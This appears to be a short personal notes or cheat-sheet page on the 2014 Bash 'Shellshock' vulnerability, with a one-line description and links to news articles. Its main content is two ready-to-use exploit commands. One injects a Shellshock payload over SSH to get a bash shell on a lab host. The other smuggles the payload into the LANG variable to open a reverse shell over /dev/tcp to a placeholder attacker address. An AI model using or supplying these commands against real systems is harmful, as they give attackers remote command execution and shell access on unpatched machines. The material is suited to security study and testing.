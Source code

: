 ```yaml
---
description: >-
  Known as the “Bash Bug” or “ShellShock,” the GNU Bash Remote Code Execution
  Vulnerability (CVE-2014-6271) could allow an attacker to gain control over a
  targeted computer if exploited successfully.
---
```


# Shellshock

{% embed url="https://linuxfr.org/news/une-faille-nommee-shellshock" %}

{% embed url="https://www.symantec.com/connect/blogs/shellshock-all-you-need-know-about-bash-bug-vulnerability" caption="" %}

{% embed url="https://www.zdziarski.com/blog/?p=3905" %}



```text
# Shellshock exploit using ssh
ssh -i noob noob@192.168.159.134 '() { :;}; /bin/bash'

# Spawn a remote shell on port 8000 to the IP address at A.B.C.D.
$ env LANG='() { :; }; /bin/bash -i >& /dev/tcp/A.B.C.D/8000 0>&1' ssh target_host
```

